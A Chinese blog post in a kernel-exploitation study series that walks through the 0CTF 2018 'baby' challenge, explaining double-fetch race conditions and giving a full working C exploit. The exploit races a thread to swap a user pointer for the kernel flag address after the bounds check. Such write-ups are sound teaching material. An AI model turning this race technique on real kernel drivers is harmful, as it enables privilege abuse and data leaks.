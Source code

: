 ```yaml
---
title: Kernel pwn 入门 (5)
date: 2023-02-28 22:31:03
categories:
- 学习笔记
- kernel pwn 系列
---
```

# 条件竞争
在用户态pwn中有一类题型叫做条件竞争。当程序需要在不同时刻访问相同一块内存时，如果没有做好并发访问的限制和检查，就有可能会产生恶意数据或执行恶意代码。今天笔者就来分析一下内核态中的条件竞争，以一道经典的题辅助学习。


# 0CTF2018-baby（double fetch）
## Step 1: 分析程序与调试
按照惯例，打开IDA。
![](1.png)
这个模块实现的功能只有一个：ioctl。我们跟进到其调用的ioctl_impl函数看一下。
![](2.png)
ioctl的指令码只有两种：0x6666和0x1337。当指令码为0x6666时，会打印出flag的地址。
当指令码为0x1337时，其会调用_chk_range_not_ok函数。一看名字就不难猜测，这是一个检查越界的函数：
![](3.png)
上面的__CFADD__函数的功能是返回两个参数相加后的CF标志位。当两个参数相加在最高位产生进位时CF为1，否则为0。不难想到如果a1和a2相加产生进位，那么一定会导致越界溢出。传入的第三个参数应该是数组的末尾地址，后面要判断a1+a2是否大于v4。

回到ioctl_impl函数，这里判断传入的第三个参数不能大于``*(_QWORD *)(__readgsqword((unsigned int)&current_task) + 0x1358)``这个东西。那这个东西到底是多少呢，我们写一个简单的程序调用一下这个模块看看。

```c
//
// Created by root on 22-7-23.
//
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <ctype.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <fcntl.h>

void print_binary(char* buf, int length);

// this is a universal function to print binary data from a char* array
void print_binary(char* buf, int length){
    int index = 0;
    char output_buffer[80];
    memset(output_buffer, '\0', 80);
    memset(output_buffer, ' ', 0x10);
    for(int i=0; i<(length % 16 == 0 ? length / 16 : length / 16 + 1); i++){
        char temp_buffer[0x10];
        memset(temp_buffer, '\0', 0x10);
        sprintf(temp_buffer, "%#5x", index);
        strcpy(output_buffer, temp_buffer);
        output_buffer[5] = ' ';
        output_buffer[6] = '|';
        output_buffer[7] = ' ';
        for(int j=0; j<16; j++){
            if(index+j >= length)
                sprintf(output_buffer+8+3*j, "   ");
            else{
                sprintf(output_buffer+8+3*j, "%02x ", ((int)buf[index+j]) & 0xFF);
                if(!isprint(buf[index+j]))
                    output_buffer[58+j] = '.';
                else
                    output_buffer[58+j] = buf[index+j];
            }
        }
        output_buffer[55] = ' ';
        output_buffer[56] = '|';
        output_buffer[57] = ' ';
        printf("%s\n", output_buffer);
        memset(output_buffer+58, '\0', 16);
        index += 16;
    }
}

int main(){
    int fd = open("/dev/baby", O_RDWR);
    int a;
    printf("%p\n", main);
    scanf("%d", &a);
    ioctl(fd, 0x6666);
    char b[0x10] = {0};
    ioctl(fd, 0x1337, b);
}
```

不知道是什么原因，本题的内核没有办法直接下断点，也没有办法将断点下在用户态程序中。尝试了很长时间，才找到调试的方法：

### 重要：内核模块调试方法：
首先打开init文件，将权限改为root（即在启动sh的那一行把gid从1000改成0），然后启动内核输入lsmod命令获取到模块的加载地址。然后我们**不用去管syscall到底调用了模块的什么函数，不用去管这个函数在什么地方，直接将断点下在输出的加载地址上。注意，其输出的地址是模块加载的起始地址，但依然可以发挥断点的作用。**
```
/ # lsmod
baby 16384 0 - Live 0xffffffffc02f8000 (OE)
```
如上面的输出，我们可以直接将断点下在0xffffffffc02f8000，而无需在其上加上ioctl函数的偏移，也可以起到断点的作用。（亲测有效）

通过这种方式，我们成功调试漏洞模块，然后找到了``*(_QWORD *)(__readgsqword((unsigned int)&current_task) + 0x1358)``的值到底是多少：0x7ffffffff000。这是用户态栈区的最高地址，因此只要我们传入的是一个不太大的地址，都是可以的。
![](4.png)
再回去看一下反汇编，注意第一个检查中的第一个参数cmpStr应该是一个指针，而第二个检查中的第二个参数应该表示字符串的长度，这里是将地址的值和第二个参数相加，因此不难猜测。即使猜不出来，第三个检查应该就非常明显了，检查这里的值是否等于flag的长度。flag的长度为33。因此我们要传入的参数应该是一个结构体的地址，这个结构体的前8字节是一个char*指针，后面8字节是33。
![](5.png)
在判断之后，会对传入的字符串进行检查，如果与flag相等则输出flag。这里就产生了竞争条件漏洞。

<font color=red>**如果在进行if判断的时候，我们的地址传入的是正常的用户态地址，而在执行后面的字符串比较时，这个地址就被改变到了flag处，会怎么样呢？显然模块会用flag去比较其自身，这样显然是相等的。然后flag就能够被输出。如果我们使用双线程，就可以和内核模块竞争字符串地址这块内存的访问。只要能够在这个时间窗口成功修改字符串地址，后面的检查就可以通过。因此简单点说，竞争条件就是“时间的活”。**</font>

在C语言中，我们使用pthread_create函数创建一个线程，可以让一个线程执行一个函数。具体的参数调用规则参见[资料](https://blog.csdn.net/wushuomin/article/details/80051295?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165858376216782391822691%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=165858376216782391822691&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-80051295-null-null.142^v33^control,185^v2^control&utm_term=pthread_create&spm=1018.2226.3001.4187)。

因此我们写出exp：

```c
//
// Created by root on 22-7-23.
//
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <stdbool.h>
#include <string.h>
#include <ctype.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <fcntl.h>

typedef struct msg{
    char* buffer;
    int length;
}msg;
size_t flag_address;
bool success = false;
#define WRITE_TIME 1000
msg m;
pthread_t competition_thread;

void* competition(){
    while(!success){
        for(int i=0; i<WRITE_TIME; i++)
            m.buffer = flag_address;
    }
    return NULL;
}

int main(){
    int fd = open("/dev/baby", O_RDWR);
    ioctl(fd, 0x6666);
    system("dmesg | grep 'flag' > temp.txt");

    int file = open("/temp.txt", O_RDWR);
    char context[0x100] = {0};
    read(file, context, 49);
    flag_address = strtoull(context + 31, NULL, 16);
    close(file);

    m.buffer = context;
    m.length = 33;

    pthread_create(&competition_thread, NULL, competition, NULL);
    while(!success){
        for(int i=0; i<WRITE_TIME; i++){
            m.buffer = context;
            ioctl(fd, 0x1337, &m);
        }
        system("dmesg | grep 'flag' > temp.txt");
        file = open("/temp.txt", O_RDWR);
        read(file, context, 0x80);
        if(strstr(context, "flag{") != NULL)
            success = true;
    }

    printf("%s\n", context);

}

```

其中在规划两者竞争的时候需要注意应该如何写代码，我们应该让二者充分竞争，所以双方修改这一个地方的总次数最好不要相差太多，否则可能难以达到竞争的目的。
![](6.png)
由此可见，本题中竞争条件的利用并不是很难，难就难在当我们拿到这一题时，我们应该怎样才能够发现这道题存在条件竞争漏洞。本题的条件竞争属于double fetch，它通常的流程是：检查代码首先访问某一块内存，确认数据没有问题后主要操作代码再一次访问同一块内存，显然当这块内存没有被上锁的情况下，中间的时间空当是可以被利用的，这种检查也是线程不安全的。
